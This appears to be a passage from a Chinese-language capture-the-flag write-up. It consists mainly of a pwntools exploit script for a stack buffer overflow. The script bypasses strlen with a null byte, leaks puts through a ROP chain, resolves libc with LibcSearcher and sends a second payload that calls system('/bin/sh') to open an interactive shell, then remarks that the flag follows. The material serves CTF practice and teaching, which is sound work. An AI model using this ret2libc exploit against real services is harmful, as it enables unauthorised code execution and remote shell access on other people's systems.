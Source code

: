 ```
payload = b'\0'+b'a'*(5*16+8-1)   #减一是因为前面输入了\0,跳出strlen函数
payload+=p64(pop_rdi)
payload+=p64(puts_got)
payload+=p64(puts_plt)
payload+=p64(main)

#合适位置发送payload
r.sendlineafter('Input your Plaintext to be encrypted\n',payload)

#接收无用信息并舍弃
r.recvline()
r.recvline()

#接收puts地址
puts_addr=u64(r.recvuntil('\n')[:-1].ljust(8,b'\0'))

#打印puts函数地址
print(hex(puts_addr))
#使用hex()函数来打印puts_addr，主要是为了以十六进制的格式输出地址，要进制统一

#获取puts的libc地址
libc = LibcSearcher('puts',puts_addr)

#计算偏移值
Offset = puts_addr - libc.dump('puts')

#得出binsh和system的函数地址
binsh = Offset+libc.dump('str_bin_sh')
system = Offset+libc.dump('system')

#合适位置进入Encrypt函数
r.sendlineafter('Input your choice!\n','1')

#构建payload
payload = b'\0'+b'a'*(5*16+8-1)
payload=payload+p64(ret)
payload=payload+p64(pop_rdi)
payload=payload+p64(binsh)
payload=payload+p64(system)

#合适位置发送payload
r.sendlineafter('Input your Plaintext to be encrypted\n',payload)

#与靶机进行交互
r.interactive()
```

常规，得出flag

（注：这里有0和1供你选择，俩都试试，这里我试的0可以，1不行）

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744715270923-5fbeee14-f4fa-407c-b295-1a38ca2e4757.png)
